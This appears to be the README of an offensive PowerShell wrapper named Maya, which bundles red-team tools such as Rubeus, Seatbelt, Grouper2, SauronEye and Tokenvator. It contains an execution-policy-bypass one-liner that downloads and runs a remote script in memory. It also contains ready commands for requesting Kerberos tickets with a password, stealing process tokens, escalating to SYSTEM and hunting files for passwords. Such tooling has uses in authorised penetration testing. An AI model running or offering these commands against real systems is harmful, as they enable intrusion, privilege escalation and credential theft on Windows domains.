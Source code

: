 # Maya
Non-PowerShell based tools wrapped in PowerShell!

Import-Module ./Maya.ps1

Maya

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Maya/main/Maya.ps1'))

###################################

Follow the on screen instructions:
e.g.

Maya -Rubeus -Command "klist"

Maya -Rubeus -Command "asktgt /user:MNDC /password:ComputerPassword /domain:mitnick.in /dc:MNDC.mitnick.in /nowrap"

Maya -Seatbelt -Command "-group=user"

Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"

Maya -SauronEye -Command "--filetypes .xml .txt .doc .docx .xls .ps1 --keywords pass"

Maya -Tokenvator

Maya -Tokenvator -Command "Sample_Processes"

Maya -Tokenvator -Command "Steal_Token 1156 cmd.exe"

Maya -Tokenvator -Command "GetSystem"

Maya -Tokenvator -Command "WhoAmI"

Maya -Tokenvator -Command "info"

Maya -Rubeus -Command "klist"

Get-GPOReport -All -ReportType XML -Path "c:\Temp\gporeport.xml"

Then,
Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"
